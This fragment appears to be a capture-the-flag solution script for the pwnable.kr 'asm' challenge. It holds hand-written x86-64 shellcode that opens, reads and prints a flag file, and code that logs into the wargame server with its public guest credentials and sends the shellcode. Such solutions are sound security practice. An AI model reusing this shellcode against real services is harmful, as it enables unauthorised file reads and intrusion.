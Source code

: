 ```asm
	shellcode = "\xeb\x40\x48\x31\xc0\x5b\x53\x66\x81\xc3\xe7\x00\x67\x89\x03\x04\x02\x5f\x57\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x5e\x56\x66\x81\xc2\x90\x01\x0f\x05\x31\xc0\x04\x01\x48\x31\xff\x48\x83\xc7\x01\x5e\x0f\x05\x48\x31\xc0\x48\x31\xff\x04\x3c\x0f\x05\xe8\xbb\xff\xff\xff\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x61\x61"

	#connect and send shellcode
	con = ssh(host='pwnable.kr', port=2222, user='asm', password='guest')
	r = con.connect_remote('localhost', 9026)

	r.recvuntil('shellcode:')
	r.send(shellcode)

	#get our flag and print any additional text from service
	out = r.recvline(timeout=0.5)
	while(len(out) > 0):
		print(out)
		out = r.recvline(timeout=0.5)

if __name__ == '__main__':
	main()
```
